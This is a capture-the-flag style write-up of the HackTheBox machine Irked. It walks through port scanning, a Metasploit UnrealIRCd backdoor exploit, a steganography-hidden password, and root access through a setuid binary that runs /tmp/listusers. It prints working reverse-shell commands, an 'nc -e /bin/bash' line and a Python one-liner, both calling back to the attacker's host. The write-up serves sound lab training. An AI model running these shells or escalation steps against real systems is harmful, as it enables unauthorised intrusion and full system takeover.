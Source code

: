```yaml
---
title: "HTB Write-up: Irked"
date: 2018-12-16
category: [HackTheBox]
tags: [HackTheBox, HTB, linux, IRC, Metasploit, msfconsole, steganography, setuid, find]
header:
    teaser: "/assets/images/htb/irked/irked.png"
---
```

Irked is an easy-difficulty Linux machine that involves the exploitation of an IRC server using a public exploit, a bit of [steganography](https://en.wikipedia.org/wiki/Steganography), and the abuse of a far-from-functional custom binary owned by the `root` user of the system. Overall, the box is pretty straightforward, yet a lesson can be learned surrounding the dangers of the `setuid` bit being set when it shouldn't be. This machine is unique in the sense that upon gaining initial access to the system as the `www-data` user, it is possible (and arguably simpler) to elevate priveleges directly to the `root` user, bypassing the low privelege `djmardov` user and the related steganography puzzle entirely. 

![irked_info.png](/assets/images/htb/irked/irked_info.png)

*Note: I completed this challenge on December 16th, 2018, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this initial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.117
```

From `masscan`, it was revealed that a variety of ports were listening for connections, as shown in the command output below.

```
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 8067/tcp on 10.10.10.117                                  
Discovered open port 65534/tcp on 10.10.10.117                                 
Discovered open port 80/tcp on 10.10.10.117                                    
Discovered open port 111/tcp on 10.10.10.117                                   
Discovered open port 22/tcp on 10.10.10.117                                    
Discovered open port 50167/tcp on 10.10.10.117                                 
Discovered open port 6697/tcp on 10.10.10.117 
...
```

Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8067,65534,80,111,22,50167,6697 -sC -sV -oA scans/discovered-tcp 10.10.10.117
```

Note that while this scan is running, it's a good idea to check out what might be happening on well-known ports such as the HTTP port TCP 80. In this case, it appears the only item present on the webserver is the `irked.jpg` image which is shown below.

![irked_jpg.png](/assets/images/htb/irked/irked_jpg.png)

The results of the nmap scan revealed some interesting services listening on some uncommon ports, which suggest a good starting place for further enumeration. Note that in general, it is wise to take a broad approach during the initial enumeration process. That is to say that basic enumeration of each listening service should be completed before moving on to more focused enumeration of any particular service. In this write-up, the basic enumeration techniques are not discussed. A screenshot of the result of the nmap scan is shown below.

![nmapresults](/assets/images/htb/irked/nmapresults.png)

Of particular interest is the UnrealIRCd service running on TCP ports 6697, 8067, and 65534.

Using an IRC client such as `hexchat`, the IRC service listening on port 6697 can be accessed. If neccessary, `hexchat` can be installed using `apt-get install hexchat`. Upon connecting to the service, the server announces the running version of UnrealIRCd as 3.2.8.1. This is shown in the screenshot below.

![irc_version.png](/assets/images/htb/irked/irc_version.png)

Lesser-known and outdated services are often vulnerable to exploitation. The `searchsploit` tool can be used to search for exploits relevant to a given service. Now that the version of UnrealIRCd running on the target server is known, the command shown below can be used to search for vulnerabliities and exploits relevant to UnrealIRCd 3.2.8.1.

```
root@kali:~/workspace/hackthebox/Irked# searchsploit "UnrealIRCd 3.2.8.1"
```

The results of the search reveal that thare are a variety of exploits related to this version of UnrealIRCd, including a backdoor command exeuction Metasploit module.

![searchsploit_results](/assets/images/htb/irked/searchsploit_results.png)

The Metasploit Framework can be accessed via command line with the `msfconsole` command. Within `msfconsole`, the `exploit/unix/irc/unreal_ircd_3281_backdoor` module can be loaded and ran against the target using the options shown below.

![msfconsole_exploit.png](/assets/images/htb/irked/msfconsole_exploit.png)

Running this module with the `run` command results in a shell on the system as the `ircd` user. This session can be upgraded to a more stable shell by first connecting back to the attacking system once again, but this time outisde of `msfconsole`. In a new window on the attacking system, a listener should be set up before issuing the `nc -e /bin/bash 10.10.14.2 4444` command on the target system. From the session created over this connection, the shell can be upgraded, as demonstrated below.

![shell_upgrade.png](/assets/images/htb/irked/shell_upgrade.png)

In the `/home` directory of the target system there are two users; `ircd` and `djmardov`. The flag `user.txt` file is in the `/home/djamardov/Documents` directory, but cannot be read by the current `ircd` user. In this same directory, however, there is a file called `.backup`, the contents of which are shown below.

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

For those unfamiliar with steg, the word "steg" is short for "steganography" and is the practice of concealing a file, message, image, or video within another file, message, image or video. The contents of the `.backup` file in the home directory of `djmardov` suggets that there must be some information hidden in another file, and that `UPupDOWNdownLRlrBAbaSSss` must be the password to access the information.

A useful Linux tool for working with stegonagrphy is `steghide`. If necessary, this tool can be installed using `apt-get install steghide`. The `steghide` command shown below can be run against the `irked.jpg` image found on the webserver.

```
root@kali:~/workspace/hackthebox/Irked# steghide info irked.jpg
```

Upon running this command, the program prompts for a password, for which `UPupDOWNdownLRlrBAbaSSss` should be given, revealing the information shown below.

![steghide_info.png](/assets/images/htb/irked/steghide_info.png)

The embedded `pass.txt` file can be extracted with the following command.

```
root@kali:~/workspace/hackthebox/Irked# steghide extract -sf irked.jpg -p 
```

The `pass.txt` file can now be read and contains the data shown below.

```
Kab6h+m+bbp2J:HG
```

Returning to the target system, the password shown above can be used to switch to the `djmardov` user with the `su` command. The `user.txt` file can now be read.

![user_txt.png](/assets/images/htb/irked/user_txt.png)

## Root
With the password for `djmardov`, the target system can be accessed over SSH as the `djmardov` user. This provides for a cleaner experience as compared to the upgraded shell used up until this point.

To begin searching for misconfigurations that could lead to the elevation of priveleges, a search of the file system using `find` can be performed with the purpose of locating files owned by the `root` user that have the `setuid` bit set.

```
djmardov@irked:~$ find / -user root -perm -u=s 2> /dev/null
```

The `setuid` and `setgid` flags are Unix access rights flags that allow users to run programs with the permissions of the file's owner or group respectively. The `setuid` and `setgid` bits can be set by changing a file's mode with `chmod`. An octal file mode beginning with `2` (i.e. `chmod 4755 file.sh`) will set a file's `setuid` flag, and an octal file mode beginning with `4` (i.e. `chmod 2755 file.sh`) will set a file's `setgid` flag.

 Sometimes, a program owned by the `root` user that has the `setuid` bit set can be used to elevate privleges to `root`, since whenever the program is run it is run with `root` level permissions.  While it is common for certain programs owned by the `root` user to have the `setuid` flag set, it is important to keep an eye out for anything out of the ordinary.

The result of the aformentioned `find` command are shown in the image below.

![find_results.png](/assets/images/htb/irked/find_results.png)

Most of this looks normal, however the `/usr/bin/viewuser` program is not a standard `setuid` Linux binary. 

Running the `viewuser` binary displays some interesting output.

![viewuser_test.png](/assets/images/htb/irked/viewuser_test.png)

First of all, it appears that this is a custom binary that is still being developed. Secondly, it appears that the program attempts to interact with the `/tmp/listusers` file (which as suggested by the output does not exist). 

Knowing that `viewuser` is run with `root` permission and that it interacts with a nonexistent `listusers` file in the `/tmp` directory suggests a disasterous outcome, as the `/tmp` directory is world writable. This is to say that any user on the system can write to the `/tmp` directory, and therefore any user can create a `listusers` file.

To test whether the `viewuser` binary will execute code from within the `/tmp/listusers` file, a simple `ping` test can be performed. A `listusers` executable file can be written to the `/tmp` directory.

```
djmardov@irked:~$ echo "ping -c 5 10.10.14.2" > /tmp/listusers && chmod 755 /tmp/listusers
```

Next, the `tcpdump` tool can be run on the attacking system to confirm whether the target system is executing the `ping` command in the `/tmp/listusers` file.

```
root@kali:~/workspace/hackthebox/Irked# tcpdump -nni any icmp
```

The `viewuser` binary should be run again to test the `ping` command. The output on the attacking system from the `tcpdump` command confirms that the `viewuser` binary on the target system is executing shell commands in the `/tmp/listusers` file. At this point, the contents of the `/tmp/listusers` file can be replaced with a reverse shell. The Python reverse shell used for this is shown below.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

After setting up a listener on the attacking system, the `viewuser` binary should be run once again, resulting in a reverse shell as the `root` user of the target system.

![root_txt.png](/assets/images/htb/irked/root_txt.png)

